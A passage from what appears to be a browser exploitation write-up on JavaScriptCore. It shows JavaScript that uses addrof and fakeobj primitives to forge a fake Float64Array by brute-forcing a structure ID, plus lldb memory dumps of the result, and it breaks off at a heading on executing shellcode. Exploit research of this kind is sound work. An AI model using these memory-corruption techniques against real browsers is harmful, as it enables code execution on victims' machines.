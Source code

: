     var container = {
        jsCellHeader: jsCellHeader.encodeAsJSVal(),
        butterfly: false,       // Some arbitrary value
        vector: hax,
        lengthAndFlags: (new Int64('0x0001000000000010')).asJSValue()
    };

    // Create the fake Float64Array.
    var address = Add(addrof(container), 16);
    var fakearray = fakeobj(address);

    // Find the correct structure ID.
    while (!(fakearray instanceof Float64Array)) {
        jsCellHeader.assignAdd(jsCellHeader, Int64.One);
        container.jsCellHeader = jsCellHeader.encodeAsJSVal();
    }

    // All done, fakearray now points onto the hax array

To "visualize" the result, here is some lldb output. The container object
is located at 0x11321e1a0:

    (lldb) x/6gx 0x11321e1a0
    0x11321e1a0: 0x0100150000001138 0x0000000000000000
    0x11321e1b0: 0x0118270000001000 0x0000000000000006
    0x11321e1c0: 0x0000000113217360 0x0001000000000010
    (lldb) p *(JSC::JSArrayBufferView*)(0x11321e1a0 + 0x10)
    (JSC::JSArrayBufferView) $0 = {
      JSC::JSNonFinalObject = {
        JSC::JSObject = {
          JSC::JSCell = {
            m_structureID = 4096
            m_indexingType = '\0'
            m_type = Float64ArrayType
            m_flags = '\x18'
            m_cellState = NewWhite
          }
          m_butterfly = {
            JSC::CopyBarrierBase = (m_value = 0x0000000000000006)
          }
        }
      }
      m_vector = {
        JSC::CopyBarrierBase = (m_value = 0x0000000113217360)
      }
      m_length = 16
      m_mode = 65536
    }

Note that m_butterfly as well as m_mode are invalid as we cannot write null
there. This causes no trouble for now but will be problematic once a garbage
collection run occurs. We'll deal with this later.


----[ 6.3 - Executing shellcode

